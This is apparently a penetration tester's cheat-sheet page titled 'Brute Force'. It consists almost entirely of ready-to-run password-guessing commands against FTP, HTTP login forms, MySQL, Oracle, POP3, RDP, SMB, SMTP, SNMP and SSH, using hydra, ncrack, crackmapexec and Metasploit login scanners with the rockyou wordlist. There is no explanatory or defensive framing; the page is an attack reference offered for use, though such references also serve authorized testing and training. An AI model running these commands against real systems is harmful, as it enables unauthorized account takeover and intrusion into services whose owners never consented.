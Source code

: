 +++
menus = 'main'
title = 'Brute Force'
collapsibleMenu = true
alwaysopen = false

+++

## Services

FTP - Known user and rockyou password list

```bash
hydra -t 1 -l $user -P /usr/share/wordlists/rockyou.txt -vV $ip ftp
```

HTTP - hydra http-post request known user

```bash
hydra -l $user -P /usr/share/wordlists/rockyou.txt $ip http-post-form "<Login Page>:<Request Body>:<Error Message>" -v -V
```

HTTP - hydra http-get request known users

```bash
hydra -l admin -P /usr/share/wordlists/rockyou.txt -f $ip http-get /svn -V -I
```

MYSQL - Known user and rockyou password list

```bash
hydra -l $user -P /usr/share/wordlists/rockyou.txt $ip mysql
```

MYSQL - Username list and rockyou password list

```bash
hydra -L users.txt -P /usr/share/wordlists/rockyou.txt $ip mysql
```

MYSQL - Metasploit

```bash
use auxiliary/scanner/mysql/mysql_login
```

ORACLE - Hydra password attack rockyou password list

```bash
hydra -P /usr/share/wordlists/rockyou.txt -t 32 -s 1521 $ip oracle-listener
```

POP3 - Known user and rockyou password list

```bash
hydra -l $user -P /usr/share/wordlists/rockyou.txt -f $ip pop3 -V
```

RDP - Known user and rockyou password list

```bash
hydra -t 1 -V -f -l $user -P /usr/share/wordlists/rockyou.txt rdp://$ip
```

RDP - Known user and rockyou password list

```bash
ncrack -vv --user $user -P /usr/share/wordlists/rockyou.txt rdp://$ip
```

SMB - Metasploit

```bash
use auxiliary/scanner/smb/smb_login
```

SMB - Known user and rockyou password list

```bash
hydra -t 1 -V -f -l $user -P /usr/share/wordlists/rockyou.txt $ip smb
```

SMB - User & password list

```bash
crackmapexec smb $ip -u users.txt -p users.txt --continue-on-success
```

SMTP - Known user and rockyou password list

```bash
hydra -P /usr/share/wordlists/rockyou.txt $ip smtp -V
```

SNMP - Known user and rockyou password list

```bash
hydra -P /usr/share/wordlists/rockyou.txt -v $ip snmp
```

SSH - Enumerate users with metasploit

```bash
use auxiliary/scanner/ssh/ssh_enumusers
```

SSH - Quick Known user and rockyou password list

```bash
hydra $ip -s 22 ssh -l $user -P /usr/share/seclists/Passwords/Common-Credentials/best1050.txt -F
```

SSH - Known user and rockyou password list

```bash
hydra $ip -s 22 ssh -l $user -P /usr/share/wordlists/rockyou.txt -V -F
```

SSH - Username list and rockyou password list

```bash
hydra -F -L users.txt -P /usr/share/wordlists/rockyou.txt -t 16 $ip
```

